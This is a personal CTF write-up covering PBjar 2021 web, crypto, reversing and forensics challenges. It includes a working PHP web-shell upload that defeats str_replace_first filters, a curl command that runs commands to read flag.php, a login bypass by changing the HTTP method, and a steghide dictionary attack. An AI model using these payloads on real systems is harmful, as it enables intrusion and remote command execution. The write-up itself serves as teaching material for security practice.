





PBjar ctf 2021
1 Introduction
This weekend I competed in the PBjar ctf, where I landed on 76 place.
Which isn't half bad if i'd say so myself.
Anyway, I have here gathere write-ups for some of the challenges where i got the flag.
I won't cover all the challenges I completed, as I didn't write notes for all of them.
Hope you'll enjoy the reading, or find any of this useful one way or another.
2 cOrL web
This was a fairly easy web challenge, where you had to bypass a login form to get the flag.
The description gave us the user name admin, supplying the password admin gives us the following message:

So if we change the request type from POST to PUT, and send the data in the body:
PUT /index.php HTTP/1.1 Host: 147.182.172.217:42003 User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:92.0) Gecko/20100101 Firefox/92.0 Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8 Accept-Language: en-US,en;q=0.5 Accept-Encoding: gzip, deflate Content-Type: application/x-www-form-urlencoded Content-Length: 29 Origin: http://147.182.172.217:42003 Connection: close Referer: http://147.182.172.217:42003/index.php Upgrade-Insecure-Requests: 1 username=admin&password=admin
This can also be done quite easily with(as the challenge name implies), curl:
┌──[ c3lphie@c3lphie-laptop:~/hacking/ctf/pbjar21/programmers_hate_programming ]
└─> $ curl -X PUT "http://147.182.172.217:42003/index.php" -d "username=admin&password=admin"
<html>
<head>
<title> cOrL </title>
<link href="https://maxcdn.bootstrapcdn.com/bootstrap/3.2.0/css/bootstrap.min.css" rel="stylesheet">
<link href="https://getbootstrap.com/docs/3.3/examples/jumbotron-narrow/jumbotron-narrow.css" rel="stylesheet">
<script src="https://ajax.googleapis.com/ajax/libs/jquery/3.3.1/jquery.min.js"></script>
<script src="https://maxcdn.bootstrapcdn.com/bootstrap/3.3.7/js/bootstrap.min.js"></script>
</head>
<div class="container">
<div class="jumbotron">
<div class="login-form">
<form role="form" action="index.php" method="post">
<div class="form-group">
<input type="text" name="username" id="password" class="form-control input-lg" placeholder="Username">
<input type="password" name="password" id="password" class="form-control input-lg" placeholder="Password">
<input type="submit" class="btn btn-lg btn-success btn-block" value="Login">
<h4 class="text-center" style="color:green">Ah so you must indeed be admin if you put through those protections! The flag is flag{HTTP_r3qu35t_m3th0d5_ftw}</h4> </div>
</form>
</div>
</div>
</div>
</html>
3 ProgrammersHateProgramming web
This challenge was a fun PHP bypass challenge.
The vulnerable source code was available for download, and can be seen below:
<?php
if(isset($_POST["notewrite"]))
{
$newnote = $_POST["notewrite"];
$notetoadd = str_replace_first("<?php", "", $newnote);
$notetoadd = str_replace_first("?>", "", $notetoadd);
$notetoadd = str_replace_first("<script>", "", $notetoadd);
$notetoadd = str_replace_first("</script>", "", $notetoadd);
$notetoadd = str_replace_first("flag", "", $notetoadd);
$filename = generateRandomString();
file_put_contents("$filename.php", $notetoadd);
header("location:index.php");
}
?>
The first that popped into my eyes were the removal of the script tags…
Which after trying to get an admin cookie, from a none existing admin bot, so after getting a small hint by the challenge author @ZeroDayTea (which boiled down to the admin bot not existing).
I started on the PHP bypass, which you might notice isn't too difficult as the function used to get rid of bad text is str_replace_first.
This however doesn't stop us from simply inserting an ekstra set of bad characters.
So in burp suite I edited the POST request to create a simple PHP shell:
POST /addnote.php HTTP/1.1 Host: 147.182.172.217:42002 User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:92.0) Gecko/20100101 Firefox/92.0 Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8 Accept-Language: en-US,en;q=0.5 Accept-Encoding: gzip, deflate Content-Type: application/x-www-form-urlencoded Content-Length: 179 Origin: http://147.182.172.217:42002 Connection: close Referer: http://147.182.172.217:42002/index.php Cookie: PHPSESSID=766020f2a5431c702c79e4bb9bc1abeb Upgrade-Insecure-Requests: 1 notewrite=<?php flag ?> <?php $cmd=$_GET["cmd"]; $out=null; $ret=null; exec($cmd,$out,$ret); echo "Ran: $cmd | Ret: $ret\n"; echo "<pre>"; print_r($out); echo "</pre>";?>
Then just run the following curl command on the newly created note:
┌──[ c3lphie@c3lphie-laptop:~/hacking/ctf/pbjar21/programmers_hate_programming ]
└─> $ curl "http://147.182.172.217:42002/c0N8GENVYy1EwaR.php?cmd=cat%20../../../flag.php"
Ran: cat ../../../flag.php | Ret: 0
<pre>flag{server_side_php_xss_is_less_known_but_considering_almost_80%_of_websites_use_php_it_is_good_to_know_thank_me_later_i_dont_want_to_stop_typing_this_flagg_is_getting_long_but_i_feel_like_we're_developing_a_really_meaningful_connection}</pre>
4 ProgrammersHateProgramming 2 web
This was a follow challenge, which builds on ProgrammersHateProgramming.
Again we have the vulnerable source code available:
<?php
if(isset($_POST["notewrite"]))
{
$newnote = $_POST["notewrite"];
$notetoadd = str_replace_first("<?php", "", $newnote);
$notetoadd = str_replace_first("?>", "", $notetoadd);
$notetoadd = str_replace_first("<?", "", $notetoadd);
$notetoadd = str_replace_first("flag", "", $notetoadd);
$notetoadd = str_replace("fopen", "", $notetoadd);
$notetoadd = str_replace("fread", "", $notetoadd);
$notetoadd = str_replace("file_get_contents", "", $notetoadd);
$notetoadd = str_replace("fgets", "", $notetoadd);
$notetoadd = str_replace("cat", "", $notetoadd);
$notetoadd = str_replace("strings", "", $notetoadd);
$notetoadd = str_replace("less", "", $notetoadd);
$notetoadd = str_replace("more", "", $notetoadd);
$notetoadd = str_replace("head", "", $notetoadd);
$notetoadd = str_replace("tail", "", $notetoadd);
$notetoadd = str_replace("dd", "", $notetoadd);
$notetoadd = str_replace("cut", "", $notetoadd);
$notetoadd = str_replace("grep", "", $notetoadd);
$notetoadd = str_replace("tac", "", $notetoadd);
$notetoadd = str_replace("awk", "", $notetoadd);
$notetoadd = str_replace("sed", "", $notetoadd);
$notetoadd = str_replace("read", "", $notetoadd);
$notetoadd = str_replace("ls", "", $notetoadd);
$notetoadd = str_replace("ZeroDayTea is not hot", "", $notetoadd);
$filename = generateRandomString();
file_put_contents("$filename.php", $notetoadd);
header("location:index.php");
}
?>
The compared to the previous challenge, there is an extra str_replace_firt call which removes the string "<?".
And looking at the added str_replace calls, I figured that I could basically use the same PHP shell and add an extra "<?".
POST /addnote.php HTTP/1.1 Host: 147.182.172.217:42007 User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:92.0) Gecko/20100101 Firefox/92.0 Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8 Accept-Language: en-US,en;q=0.5 Accept-Encoding: gzip, deflate Content-Type: application/x-www-form-urlencoded Content-Length: 181 Origin: http://147.182.172.217:42007 Connection: close Referer: http://147.182.172.217:42007/ Cookie: PHPSESSID=766020f2a5431c702c79e4bb9bc1abeb Upgrade-Insecure-Requests: 1 notewrite=<?php flag ?> <?<?php $cmd=$_GET["cmd"]; $out=null; $ret=null; exec($cmd,$out,$ret); echo "Ran: $cmd | Ret: $ret\n"; echo "<pre>"; print_r($out); echo "</pre>";?>
And run the following curl command on the new note:
┌──[ c3lphie@c3lphie-laptop:~/hacking/ctf/pbjar21/programmers_hate_programming ]
└─> $ curl "http://147.182.172.217:42007/kuvQDsVlC0ybArZ.php?cmd=cat%20../../../flag.php"
Ran: cat ../../../flag.php | Ret: 0
<pre>flag{wow_that_was_a_lot_of_filters_anyways_how_about_that_meaningful_connection_i_mentioned_earlier_:)}</pre>
5 Hack NASA With HTML Mr. Inspector Sherlock web
This challenge had a flag split into 3 parts, where each part is hidden somewhere on this beautiful site:
So to the flag parts, I pulled up inspect element in firefox and went to work.
Multiple flag parts spread throughout the site
The first part of the flag I found was actually the last part of the flag:
_a_d3t3ct1iv3????!?!?!}
Which was located here in the html source.

Then after clicking around on a few links, I stumbled upon the second part of the flag:
I_th0ugh1_sh3l0ck_w2s
Which was hard to miss, as you can see on the picture below.

The last part I was missing, which is actually the first part of the flag.
This took a little bit of time, but eventually is I started looking at the javascript files present on the different html files.
The old.html endpoint loads the javascript file animate.js, which contains the first part of the flag:
flag{wA1t_a_m1nUt3_
Now all that was need to do is concatenate the flag parts together:
flag{wA1t_a_m1nUt3_I_th0ugh1_sh3l0ck_w2s_a_d3t3ct1iv3????!?!?!}
6 Convert crypto
Convert the hexvalue in convert/file.txt to ascii representation
666c61677b6469735f69735f615f666c346767675f68317d
This can quickly be done using xxd:
┌──[ c3lphie@c3lphie-laptop:~/hacking/ctf/pbjar21/convert ]
└─> $ cat convert/file.txt | xxd -r -p
flag{dis_is_a_fl4ggg_h1}%
7 polymer rev
In this challenge a binary was supplied.
This binary would print a lot of text containing fake flags, an just one real flag.
To find the real flag I ran strings on the binary and chained a couple of grep calls togehter:
┌──[ c3lphie@c3lphie-laptop:~/hacking/ctf/pbjar21/polymer ]
└─> $ strings polymer | grep -o -E "flag\{[a-zA-Z0-9_]+\}" | grep -v "flag{n0t_th3_fl4g_l0l}"
flag{ju5t_4n0th3r_str1ng5_pr0bl3m_0159394921}
8 Luna Guesser forensics
In this challenge I was given a sound file, LunaGuesser.wav, which if opened played a very annoying sound.
If run through a spectrum analyzer, it looks a lot like it starts with a header before sending more data.
If you follow The Game Theorist on youtube, you might have seen his video Game Theory: FNF, The Bob Mod SOLVED!.
In this video they extract a picture from a sound file, sounding a lot like LunaGuesser.wav.
Turns out the technology used is called Slow Scan TV, so after googling around I found and followed this guide:
https://ourcodeworld.com/articles/read/956/how-to-convert-decode-a-slow-scan-television-transmissions-sstv-audio-file-to-images-using-qsstv-in-ubuntu-18-04
This gave the following picture:
The flag was the name of the place in this picture, so after googling moon landing place name, I found the flag to be:
flag{mare_tranquillitatis}
9 Stegosaurus stenops forensics
In this challenge we were given the following picture:
With the following challenge description:
This stenops swallowed the flag... and some unusually large rock
This is obviously a clue to it being a steganography challenge, and this rock makes me think of the infamous rockyou.txt wordlist.
I found this small bash script, which utilizes steghide to launch a dictionary attack against the file.
https://github.com/felipesi/steghide-crack
Now all we need to do run the following command:
./steghide-crack.sh stegosaurus.jpg $REPOS/Seclists/Passwords/Leaked-Databases/rockyou.txt
And grab a cup of coffe while we wait.
Once the script is done, we can look in the output file and we got the flag:
┌──[ c3lphie@c3lphie-laptop:~/hacking/ctf/pbjar21/stegosaurus ]
└─> $ cat output.txt
flag{ungulatus_better_than_stenops}
10 tippy tappies forensics
In this challenge, the file tippytappies.pcapng was provided.
Opening this file in wireshark, showed that it contained USB traffic:

Looking closer at the data, I realised it contained keystrokes.
But I didn't know how I would extract that data, and produce a document containing the keys captured.
After googling around a bit I found the following write-up Starctf - blogger.
As the write-up mentioned, we should add an extra column called "LeftoverCaptureData" before extracting the data as a csv file.
I also added a filter, to eliminate unwanted data.

Then I exported to csv:
┌──[ c3lphie@c3lphie-laptop:~/hacking/ctf/pbjar21/tippy_tappies ] └─> $ head extracted_info_2.csv 15:16 "No.","Time","Source","Port","Destination","Port","Protocol","Length","Keys","Info" "1","0.000000","2.3.1","0x00000001","host","0xffffffff","USB","65","","URB_INTERRUPT in" "4","0.000958","2.3.1","0x00000001","host","0xffffffff","USB","65","","URB_INTERRUPT in" "33","0.259991","2.3.1","0x00000001","host","0xffffffff","USB","65","","URB_INTERRUPT in" "65","14.307636","2.9.1","0x00000001","host","0xffffffff","USB","72","280000000000","URB_INTERRUPT in" "67","14.392723","2.9.1","0x00000001","host","0xffffffff","USB","72","000000000000","URB_INTERRUPT in" "69","14.680287","2.9.1","0x00000001","host","0xffffffff","USB","72","280000000000","URB_INTERRUPT in" "71","14.750312","2.9.1","0x00000001","host","0xffffffff","USB","72","000000000000","URB_INTERRUPT in" "73","14.874450","2.9.1","0x00000001","host","0xffffffff","USB","72","280000000000","URB_INTERRUPT in" "75","14.936478","2.9.1","0x00000001","host","0xffffffff","USB","72","000000000000","URB_INTERRUPT in"
And cut some more unneccessary info out with this one-liner:
cat extracted_info.csv | cut -d "," -f 9 | sed ':a;N;$!ba;s/"//g' > HEXDUMP.txt
Then I used the script provided in the write-up to convert the hexvalues into characters.
python key_extractor.py > characters.txt
┌──[ c3lphie@c3lphie-laptop:~/hacking/ctf/pbjar21/tippy_tappies ] └─> $ cat characters.txt 15:31 No map found for this value: 55 No map found for this value: 55 No map found for this value: 55 No map found for this value: 55 [ .. snip ..] No map found for this value: 55 No map found for this value: 55 No map found for this value: 55 RET RET RET RET RET RET RET RET RET RET RET RET RET RET RET RET RET RET RET RET RET RET RET RET RET RET RET RET RET RET RET RET RET RET RET RET s s s s s s s s s s s s u u u u u u u u u u u u d d d d d d d o o o o o o o o o o o o SPC SPC SPC SPC SPC SPC SPC SPC SPC SPC SPC a a a a a a a p p p p p p p p p p p p p p p p p t t t t t t t t t t t t - - - - - - - - - - - - g g g g g g g g g g g g e e e e e e e t t t t t t t t t t t t SPC SPC SPC SPC SPC SPC SPC SPC SPC SPC SPC SPC SPC SPC SPC SPC SPC u u u u u u u p p p p p u p d d d d d p p p p p p a a a a a a a a a a a a t t t t t e t t t t t e e e e e e e e e e e e RET RET RET RET RET RET RET RET RET RET RET RET u u u u u u u s s s s s s s s s s s s e e e e e s e r r r r r e e e e e r r r r r r r r r r r r RET RET RET RET RET RET RET RET RET RET RET RET s s s s s s s s s s s s u u u u u u u d d d d d d d d d d d d d d d d d o o o o o o o SPC SPC SPC SPC SPC SPC SPC SPC SPC SPC SPC SPC SPC SPC SPC SPC SPC a a a a a a a p p p p p p p p p p p p p p p p p t t t t t t t t t t t t - - - - - - - - - - - - g g g g g g g g g g g g e e e e e e e t t t t t t t t t t t t SPC SPC SPC SPC SPC SPC SPC SPC SPC SPC SPC SPC SPC SPC SPC SPC SPC i i i i i i i n n n n n i n s s s s s n n n n n s s s s s s s s s s s s t t t t t t t a a a a a a a a a a a a l l l l l a a a a a a a a a a a a l l l l l l l SPC SPC SPC SPC SPC SPC SPC SPC SPC SPC SPC SPC w w w w w w w w w w w w e e e e e e e e e e e e e e e e e e e e e e e e e e e e e c c c c c c c c c c c c h h h h h h h a a a a a a a a a a a a t t t t t t t t t t t t t t t t t RET RET RET RET RET RET RET RET RET RET RET RET RET RET RET RET RET RET y y y y y y y y y y y y y y y y y y RET RET RET RET RET RET RET RET RET RET RET RET w w w w w w w e e e e e e e e e e e e e e e e e e e e e e e e e e e e e c c c c c c c c c c c c h h h h h h h a a a a a a a a a a a a a a a a a t t t t t t t t t t t t RET RET RET RET RET RET RET RET RET RET RET RET / / / / / / / / / / / / c c c c c c c c c c c c o o o o o o o n n n n n n n n n n n n n n n n n n n n n n n n n n n n n e e e e e e e c c c c c c c c c c c c c c c c c t t t t t t t t t t t t SPC SPC SPC SPC SPC SPC SPC SPC SPC SPC SPC SPC c c c c c c c c c c c c h h h h h h h a a a a a a a a a a a a t t t t t t t t t t t t t t t t t f f f f f f f f f f f f r r r r r r r e e e e e r r r r r r r r r r r r e e e e e e e e e e e e n n n n n n n o o o o o o o o o o o o d d d d d d d d d d d d d d d d d e e e e e e e n n n n n n n e e e e e e e e e e e e t t t t t t t t t t t t t t t t t RET RET RET RET RET RET RET RET RET RET RET RET / / / / / / / / / / / / s s s s s s s e e e e e s e r r r r r e e e e e r r r r r r r r r r r r v v v v v v v v v v v v e e e e e e e r r r r r r r r r r r r SPC SPC SPC SPC SPC SPC SPC SPC SPC SPC SPC a a a a a a a d d d d d d d d d d d d d d d d d d d d d d d SPC SPC SPC SPC SPC SPC SPC SPC SPC SPC SPC SPC f f f f f f f f f f f f r r r r r r r e e e e e e e e e e e e e e e e e e e e e e e n n n n n n n o o o o o o o o o o o o d d d d d d d d d d d d d d d d d e e e e e e e e e e e e SPC SPC SPC SPC SPC SPC SPC SPC SPC SPC SPC SPC c c c c c c c c c c c c h h h h h h h a a a a a a a a a a a a t t t t t t t t t t t t t t t t t f f f f f f f f f f f f r r r r r r r e e e e e e e e e e e e e e e e e e e e e e e n n n n n n n o o o o o o o o o o o o d d d d d o o o o o o o o o o o o e e e e e e e e e e e e n n n n n n n n n n n n e e e e e e e t t t t t t t t t t t t t t t t t RET RET RET RET RET RET RET RET RET RET RET RET / / / / / / / / / / / / / / / / / / DEL DEL DEL DEL DEL DEL DEL DEL DEL DEL DEL DEL / / / / / / / / / / / / c c c c c c c c c c c c o o o o o o o n n n n n n n n n n n n n n n n n n n n n n n n n n n n n e e e e e e e c c c c c c c c c c c c c c c c c t t t t t t t t t t t t SPC SPC SPC SPC SPC SPC SPC SPC SPC SPC SPC SPC f f f f f f f f f f f f r r r r r r r e e e e e r r r r r r r r r r r r e e e e e e e e e e e e n n n n n n n o o o o o o o o o o o o d d d d d d d d d d d d d d d d d e e e e e e e e e e e e RET RET RET RET RET RET RET RET RET RET RET RET / / / / / / / / / / / / n n n n n n i i i i i i i i i i i i c c c c c c c k k k k k k k k k k k k k k k k k SPC SPC SPC SPC SPC SPC SPC SPC SPC SPC SPC SPC g g g g g g g g g g g g o o o o o o o o o o o o o o o o o o o o o o o o s s s s s s s e e e e e e e e e e e e e e e e e RET RET RET RET RET RET RET RET RET RET RET RET / / / / / / / / / / / / n n n n n n i i i i i i i i i i i i c c c c c c c k k k k k k k k k k k k k k k k k SPC SPC SPC SPC SPC SPC SPC SPC SPC SPC SPC SPC t t t t t t t t t t t t h h h h h h h h h h h h e e e e e e e e e e e e g g g g g g g g g g g g h h h h h h h h h h h h o o o o o o o o o o o o o o o o o o o o o o o o s s s s s s s e e e e e e e e e e e DEL DEL DEL DEL DEL DEL DEL DEL DEL DEL DEL DEL DEL DEL DEL DEL DEL DEL DEL DEL DEL DEL DEL DEL DEL DEL DEL DEL DEL DEL DEL DEL DEL DEL DEL DEL DEL DEL DEL DEL DEL DEL DEL DEL DEL DEL DEL DEL DEL DEL DEL DEL DEL DEL DEL DEL DEL DEL DEL DEL o o o o o o o o o o o o o o o o o o o o o o o o s s s s s s s e e e e e e e e e e e e e e e e e RET RET RET RET RET RET RET RET RET RET RET RET / / / / / / / / / / / / m m m m m m m m m m m m s s s s s s g g g g g g g g g g g g SPC SPC SPC SPC SPC SPC SPC SPC SPC SPC SPC SPC h h h h h h h a a a a a a a a a a a a l l l l l l l l l l l l l l l l l 9 9 9 9 9 9 9 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 RET RET RET RET RET RET RET RET RET RET RET RET / / / / / / / / / / / / q q q q q q u u u u u u u u u u u u e e e e e e e r r r r r r r r r r r r y y y y y y y y y y y y SPC SPC SPC SPC SPC SPC SPC SPC SPC SPC SPC SPC SPC SPC SPC SPC SPC h h h h h h h a a a a a a a a a a a a l l l l l l l l l l l l l l l l l 9 9 9 9 9 9 9 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 RET RET RET RET RET RET RET RET RET RET RET RET t t t t t t i s s s s s s s s s s s s s s s s s SPC SPC SPC SPC SPC SPC SPC SPC SPC SPC SPC SPC DEL DEL DEL DEL DEL DEL DEL DEL DEL DEL DEL DEL DEL DEL DEL DEL DEL DEL DEL DEL DEL DEL DEL DEL DEL DEL DEL DEL DEL DEL DEL DEL DEL DEL DEL DEL DEL DEL DEL DEL DEL DEL DEL DEL DEL DEL DEL DEL DEL DEL DEL DEL DEL DEL DEL DEL DEL DEL DEL DEL t t t t t t t t t t t t h h h h h h h i i i i i i i i i i i i s s s s s s s s s s s s s s s s s SPC SPC SPC SPC SPC SPC SPC SPC SPC SPC SPC SPC m m m m m m m m m m m m i i i i i i i i i i i i s s s s s s s s s s s s s s s s s s s i i i i i o o o o o o o n n n n n n n n n n n n SPC SPC SPC SPC SPC SPC SPC SPC SPC SPC SPC SPC i i i i i i i i i i i i i i i i i s s s s s s s s s s s s SPC SPC SPC SPC SPC SPC SPC SPC SPC SPC SPC SPC t t t t t t t t t t t t o o o o o o o o o o o o o o o o o o o o o o o o SPC SPC SPC SPC SPC SPC SPC SPC SPC SPC SPC SPC i i i i i i i m m m m m m m m m m m m p p p p p p p p p p p p o o o o o o o o o o o o o o o o o r r r r r r r r r r r r t t t t t t t a a a a a a a a a a a n n n n n n n n n n n n t t t t t t t t t t t t SPC SPC SPC SPC SPC SPC f f f f f f o o o o o o o o o o o o r r r r r r r r r r r r SPC SPC SPC SPC SPC SPC SPC SPC SPC SPC SPC SPC m m m m m m m m m m m m e e e e e e e e e e e e SPC SPC SPC SPC SPC SPC SPC SPC SPC SPC SPC SPC t t t t t t t t t t t t o o o o o o o SPC SPC SPC SPC SPC SPC SPC SPC SPC SPC SPC SPC a a a a a a a a a a a a a a a a a l l l l l l l l l l l l l l l l l l l l l l l l o o o o o o o o o o o o w w w w w w SPC SPC SPC SPC SPC SPC SPC y y y y y y y y y y y y y y y y y o o o o o o o u u u u u u u u u u u u SPC SPC SPC SPC SPC SPC SPC SPC SPC SPC SPC SPC t t t t t t t t t t t t t t t t t o o o o o o o SPC SPC SPC SPC SPC SPC SPC SPC SPC SPC SPC SPC SPC SPC SPC SPC SPC j j j j j j j j j j j j e e e e e e e e e e e e o o o o o o p p p p p p p a a a a a a a a a a a a r r r r r r r r r r r r d d d d d d d d d d d d d d d d d i i i i i i i i i i i i z z z z z z z e e e e e e e e e e e e e e e e e SPC SPC SPC SPC SPC SPC SPC i i i i i i i i i i i i t t t t t t t t t t t t t t t t t RET RET RET RET RET RET RET RET RET RET RET RET f f f f f f f f f f f f l l l l l l l l l l l l a a a a a a a g g g g g g g g g g g g g g g g g SPC SPC SPC SPC SPC SPC SPC SPC SPC SPC SPC SPC SPC SPC SPC SPC SPC SPC SPC SPC SPC SPC SPC SPC w w w w w w w w w w w w o o o o o o o o o o o o w w w w w w w w w w w w g g g g g g g g g g g g o o o o o o o o o o o o o o o o o o o o o o o o d d d d d d d d d d d d u u u u u u u s s s s s s s s s s s s s s s s s b b b b b b b b b b b b d d d d d d d d d d d d e e e e e e e e e e e e t t t t t t t e e e e e e e e e e e e e e e e e c c c c c c c c c c c c t t t t t t t t t t t t i i i i i i i i i i i i v v v v v v v e e e e e e e e e e e e e e e e e w w w w w w o o o o o o r r r r r r r k k k k k k k k k k k k k k k k k RET RET RET RET RET RET RET RET RET RET RET RET
As you can see there are a lot of repeated letters, it would probably be possible to write a script that cleans this up.
But at 2 am that wasn't what was at the top of my, sleep deprived head.
So stubborn as I am, I went ahead to manually clean this up.
I didn't finish as after doing the same thing time and time again, I was suddenly able to more or less read this.
Resulting in me skipping to the end where I found the flag:
┌──[ c3lphie@c3lphie-laptop:~/hacking/ctf/pbjar21/tippy_tappies ] └─> $ cat char_log.txt 15:37 RET sudo SPC apt-get SPC update RET user RET sudo SPC apt-get SPC install SPC weechat RET y RET weechat RET /connect SPC chatfreenodenet RET /server SPC add SPC freenode SPC chatfreenodenet RET /connect SPC freenode RET /nick SPC goose RET /nick SPC thegoose RET /msg SPC hal9000 RET /query SPC hal9000 RET tis SPC SPC SPC SPC SPC SPC SPC SPC SPC SPC SPC DEL DEL DEL DEL DEL DEL DEL DEL DEL DEL DEL DEL DEL DEL DEL DEL DEL DEL DEL DEL DEL DEL DEL DEL DEL DEL DEL DEL DEL DEL DEL DEL DEL DEL DEL DEL DEL DEL DEL DEL DEL DEL DEL DEL DEL DEL DEL DEL DEL DEL DEL DEL DEL DEL DEL DEL DEL DEL DEL DEL t t t t t t t t t t t t h h h h h h h i i i i i i i i i i i i s s s s s s s s s s s s s s s s s SPC SPC SPC SPC SPC SPC SPC SPC SPC SPC SPC SPC m m m m m m m m m m m m i i i i i i i i i i i i s s s s s s s s s s s s s s s s s s s i i i i i o o o o o o o n n n n n n n n n n n n SPC SPC SPC SPC SPC SPC SPC SPC SPC SPC SPC SPC i i i i i i i i i i i i i i i i i s s s s s s s s s s s s SPC SPC SPC SPC SPC SPC SPC SPC SPC SPC SPC SPC t t t t t t t t t t t t o o o o o o o o o o o o o o o o o o o o o o o o SPC SPC SPC SPC SPC SPC SPC SPC SPC SPC SPC SPC i i i i i i i m m m m m m m m m m m m p p p p p p p p p p p p o o o o o o o o o o o o o o o o o r r r r r r r r r r r r t t t t t t t a a a a a a a a a a a n n n n n n n n n n n n t t t t t t t t t t t t SPC SPC SPC SPC SPC SPC f f f f f f o o o o o o o o o o o o r r r r r r r r r r r r SPC SPC SPC SPC SPC SPC SPC SPC SPC SPC SPC SPC m m m m m m m m m m m m e e e e e e e e e e e e SPC SPC SPC SPC SPC SPC SPC SPC SPC SPC SPC SPC t t t t t t t t t t t t o o o o o o o SPC SPC SPC SPC SPC SPC SPC SPC SPC SPC SPC SPC a a a a a a a a a a a a a a a a a l l l l l l l l l l l l l l l l l l l l l l l l o o o o o o o o o o o o w w w w w w SPC SPC SPC SPC SPC SPC SPC y y y y y y y y y y y y y y y y y o o o o o o o u u u u u u u u u u u u SPC SPC SPC SPC SPC SPC SPC SPC SPC SPC SPC SPC t t t t t t t t t t t t t t t t t o o o o o o o SPC SPC SPC SPC SPC SPC SPC SPC SPC SPC SPC SPC SPC SPC SPC SPC SPC j j j j j j j j j j j j e e e e e e e e e e e e o o o o o o p p p p p p p a a a a a a a a a a a a r r r r r r r r r r r r d d d d d d d d d d d d d d d d d i i i i i i i i i i i i z z z z z z z e e e e e e e e e e e e e e e e e SPC SPC SPC SPC SPC SPC SPC i i i i i i i i i i i i t t t t t t t t t t t t t t t t t RET RET RET RET RET RET RET RET RET RET RET RET flag SPC wowgoodusbdetectivework RET RET RET RET RET RET RET RET RET RET RET RET
And the flag turned out to be:
flag{wowgoodusbdetectivework}
11 memedium forensics
In this challenge there were provided with the mememachinememory.vmem file, which is a VMware memory file.
They store a snapshot of the memory for the virtual machine.
